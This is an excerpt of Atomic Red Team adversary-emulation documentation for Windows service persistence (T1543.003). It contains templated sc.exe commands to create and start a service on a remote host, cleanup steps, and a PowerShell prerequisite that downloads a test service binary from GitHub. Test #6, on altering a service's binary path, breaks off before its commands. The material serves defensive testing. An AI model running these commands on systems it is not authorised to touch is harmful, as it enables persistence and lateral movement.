 
#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
sc.exe \\#{remote_host} create #{service_name} binPath= "#{binary_path}" start=#{startup_type} type=#{service_type}
sc.exe \\#{remote_host} start #{service_name}
```

#### Cleanup Commands:
```cmd
sc.exe \\#{remote_host} stop #{service_name} >nul 2>&1
sc.exe \\#{remote_host} delete #{service_name} >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Service binary must exist on disk at specified location (#{binary_path})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{binary_path}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{binary_path}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1543.003/bin/AtomicService.exe" -OutFile "#{binary_path}"
```




<br/>
<br/>

## Atomic Test #6 - Modify Service to Run Arbitrary Binary (Powershell)
This test will use PowerShell to temporarily modify a service to run an arbitrary executable by changing its binary path and will then revert the binary path change, restoring the service to its original state.
This technique was previously observed through SnapMC's use of Powerspolit's invoke-serviceabuse function. 
[Reference](https://blog.fox-it.com/2021/10/11/snapmc-skips-ransomware-steals-data/)

**Supported Platforms:** Windows


**auto_generated_guid:** 1f896ce4-8070-4959-8a25-2658856a70c9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| service_name | Name of the service to modify | string | fax|
| new_bin_path | Path of the new service binary | String | $env:windir&#92;system32&#92;notepad.exe|
| original_bin_path | Path of the original service binary | String | $env:windir&#92;system32&#92;fxssvc.exe|
